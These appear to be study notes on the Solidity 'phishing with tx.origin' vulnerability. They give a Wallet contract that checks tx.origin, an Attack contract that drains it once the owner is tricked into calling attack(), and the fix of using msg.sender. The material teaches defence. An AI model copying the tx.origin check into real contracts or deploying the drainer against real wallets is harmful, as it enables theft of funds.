 #phishing
https://solidity-by-example.org/hacks/phishing-with-tx-origin/

If the `owner` was tricked signing `Attack.attack()`, since `tx.origin`is owner, `Wallet.transfer()` will run successfully 

Solution: use `msg.sender` instead of `tx.origin`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint256 _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent,) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}

```
